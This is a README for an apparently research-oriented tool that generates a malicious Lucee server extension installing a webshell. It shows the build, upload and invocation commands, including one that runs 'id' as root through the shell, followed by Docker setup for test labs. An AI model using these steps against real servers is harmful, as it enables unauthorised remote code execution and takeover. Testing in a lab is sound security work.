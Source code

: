 
## 
### Lucee Web Shells
### Written by Juan Pablo Gomez (https://github.com/JPG0mez) and Will Vandevanter (https://github.com/BuffaloWill)

The work is originally based on research and a blog post here: [LINK]

This repository includes a python script to generate a Lucee extension that will add a webshell for remote code execution. 

The extension works with Lucee 5 and 4. It should work on Lucee 6 but has not been tested.

1. To use build an extension, use the `build` command:

```bash
python3 extension-generator.py build

Auth_code already set: lErs2CC2BdpUtHYW0miiSNncE
Generating LEX package...
webshell/package.lex created.
```

2. Upload `webshell/package.lex` into the Lucee installation. 

3. Then call the webshell with:

```bash
python3 extension-generator.py --url http://localhost:8888 --auth-code lErs2CC2BdpUtHYW0miiSNncE id

uid=0(root) gid=0(root) groups=0(root)
```

### Testing Lucee

The easiest way to test Lucee functionality is with Docker. There are directions below for Lucee 5 and 4:

#### Docker - Lucee 5:

Note, lucee 5 does not ship with a password. You will need to start the server with:

```
docker run --name lucee5 -p 8888:8888 --platform linux/amd64 lucee/lucee:5.3.9.141-nginx
```

After the application finishes loading, there should be a Server page at [Server Login](http://127.0.0.1:8888/lucee/admin/server.cfm) that will mention a password needing to be set. 

This can be done from the cli with:

```
docker exec lucee5 sh -c "echo 'mypassword' > /opt/lucee/server/lucee-server/context/password.txt"
```

After this click "Import File" and you should be able to login.

This blopost also has alternate information on setting the password: 

https://markdrew.io/password-for-lucee-docker

### Docker - Lucee 4 (2018):

Start the server:

```
docker run --name lucee4 -dp 8888:8080 --platform linux/amd64 lucee/lucee4:4.5.5.015
```

Browse to localhost:8888/lucee/admin/server.cfm and set the password.
